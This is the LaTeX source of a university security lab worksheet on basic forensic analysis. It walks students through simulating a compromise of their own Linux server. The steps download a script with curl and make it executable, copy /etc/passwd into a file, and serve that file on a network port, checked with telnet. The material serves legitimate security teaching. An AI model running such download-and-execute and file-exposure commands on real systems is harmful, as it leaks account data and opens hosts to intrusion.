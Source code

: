 \documentclass{article}
\begin{document}
\title{ Lab 15.1: Some Basic Forensic Analysis \\ IN618 Security}
\maketitle

\section*{Introduction}
If we suspect a system has been compromised we need to do a little forensic analysis to se if this has, in fact, happened.  This is complicated somehwat because a skillful attacker will modify system utilities to conceal his or her activity on the compromised host. On the other hand, if we can determine that these utilities are modified, that is strong evidence that a system is compromised.

\section{``Compromise'' your system}  
Log into your Linux server as instructed by the lecturer.  On that system, download and prepare our ``malicious code'' by carrying out the following steps:

\begin{verbatim}
  curl http://kate.ict.op.ac.nz/~tclark/malicious-server > malicious-server
  chmod +x malicious-server
  cat /etc/passwd > data
\end{verbatim}

Our \texttt{malicious-server} script is just a simple one-line shell script that echoes the contents of the file \texttt{data} out on a network socket. We're having it show the contents of \texttt{/etc/passwd}. Run your script in the background with the command.

\begin{verbatim}
  ./malicious-server &
\end{verbatim}

When you do this, the terminal will output the \emph{process id}, or \texttt{PID} of your running process.  Note that number here.  You will need it later.

Verify that your program is running with the command

\begin{verbatim}
  telnet localhost 8085
\end{verbatim}

You should be served the contents of the \texttt{passwd} file you captured earlier. 
\end{document}

